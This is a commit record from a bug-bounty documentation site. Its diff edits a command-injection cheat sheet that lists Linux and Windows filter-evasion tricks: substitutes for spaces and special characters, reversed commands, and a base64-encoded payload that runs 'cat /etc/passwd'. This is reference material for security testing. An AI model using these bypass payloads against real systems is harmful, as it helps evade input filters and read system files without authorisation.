

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/command-injections.md, in a window 1280 px wide and 1400 px high, scrolled down 817 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Finish command-injections page

```diff
--- a/docs/bug-bounty-guide/command-injections.md
+++ b/docs/bug-bounty-guide/command-injections.md
@@ -13,20 +16,23 @@
 | Sub-Shell | $() | %24%28%29 | Both (Linux-only) |
 
 ## Linux
+
 ### Filtered Character Bypass
+
 | Code | Description |
 |------|-------------|
 | `printenv` | Can be used to view all environment variables |
 | **Spaces** | |
 | `%09` | Using tabs instead of spaces |
 | `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
-| `{ls,-la}` | Commas will be replaced with spaces |
+| `{ls,-la}` | Bash brace exspansion (commas will be replaced with spaces) |
 | **Other Characters** | |
 | `${PATH:0:1}` | Will be replaced with / |
 | `${LS_COLORS:10:1}` | Will be replaced with ; |
-| `$(tr '!-}' '"-~'<<<[)` | Shift character by one ([ -> \) |
+| `$(tr '!-}' '"-~'<<<[)` | Shift character by one "[" (91) -> "\\" (92) |
 
 ### Blacklisted Command Bypass
+
 | Code | Description |
 |------|-------------|
 | **Character Insertion** | |
@@ -39,11 +45,13 @@
 | `echo 'whoami' | rev` | Reverse a string |
 | `$(rev<<<'imaohw')` | Execute reversed command |
 | **Encoded Commands** | |
-| `echo -n 'cat /etc/passwd | grep 33' | base64` | Encode a string with base64 |
+| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |
 | `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |
 
 ## Windows
+
 ### Filtered Character Bypass
+
 | Code | Description |
 |------|-------------|
 | `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
@@ -56,6 +64,7 @@
 | `$env:HOMEPATH[0]` | Will be replaced with \ - (PowerShell) |
 
 ### Blacklisted Command Bypass
+
 | Code | Description |
 |------|-------------|
 | **Character Insertion** | |
```
Also changed, not shown: other parts of docs/bug-bounty-guide/command-injections.md (+5 -1 lines).
